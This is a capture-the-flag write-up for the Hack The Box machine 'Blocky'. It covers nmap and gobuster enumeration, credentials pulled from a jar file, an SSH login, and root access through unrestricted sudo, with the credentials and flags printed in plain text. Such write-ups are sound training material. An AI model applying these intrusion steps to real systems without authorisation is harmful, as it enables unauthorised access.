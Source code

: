 
---
title: Blocky
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, ]
math: true
---
# Blocky

Blocky was a easy linux machine that involved enumerating to find some files which gave creds so an sql database which then gave more creds needed for ssh. For root it was a really simple priv esc but from a common technique.

>Skills involve in this box:
- enumeration
- using databases
- privelage escalation

# USER

>Nmap

```bash
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap reveals port 80 being open as well as ssh open as well.

We check out the website where there doesnt seem to be much so we will further enumerate with gobuster:

```bash
kali@kali:~$ gobuster dir -u http://10.10.10.37/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s                                                                                           
===============================================================                                                   
2020/06/13 05:46:10 Starting gobuster                                                                             
===============================================================                                                   
/wiki (Status: 301)
/wp-content (Status: 301)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

We checkout the `/plugins` direcotry in the web browser and it takes us to a page where it allows us to downlaod some files.

`BlockCore.jar` is the file we are going to download and take a look at.

we unpack it and read the ` BlockyCore.class` file. It ahs some credentials in it which work with ssh as the user notch.

So we have the credentials `notch:8YsqfCTnvxAUeduzjNSXe22` - this is one method of getting user i will explain the second method later.

```bash
kali@kali:~$ ssh notch@10.10.10.37
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.                                         
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.                                       
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                           
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.                                       
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5notch@Blocky:~$
```

# ROOT

We run `sudo -l` to see what we can run as root and it tells us we can run everything as root so we simply just `su root` and read the root flag.

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su 
root@Blocky:/home/notch# cat /root/root.txt
0a9694a5b4d272c694679f7860f1cd5froot@Blocky:/home/notch#
```

The second method is when unpacking there is a file called `BlockCore.jad` whcih contains sql creds
We find that `/phpmyadmin` is available so we go to that and login with the creds it gives us in the file.

We then find the password for the user notch in the database and we simply ssh from there.

Thanks for reading hope you enjoyed.
